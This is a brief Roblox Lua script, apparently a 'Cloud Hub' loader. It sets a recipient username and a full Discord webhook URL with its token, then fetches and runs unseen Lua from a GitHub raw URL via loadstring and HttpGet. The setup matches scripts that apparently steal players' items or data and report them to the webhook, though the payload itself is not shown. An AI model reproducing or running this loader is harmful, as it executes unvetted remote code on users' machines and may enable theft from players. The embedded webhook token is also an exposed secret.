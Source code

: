 _G.Username = "Yukkitos"
_G.HubName = "Cloud Hub"
_G.WebhookUrl = "https://discord.com/api/webhooks/1095774215380152331/GOvw84AAY8T8IOmG_pD47Itz4CpGgzAq452NKhiP03BCvhDXzhsRh7pnbN9j49Pph20O"

loadstring(game:HttpGet("https://raw.githubusercontent.com/Jayiioceanii/PeakOnTop/main/peak.lua"))()
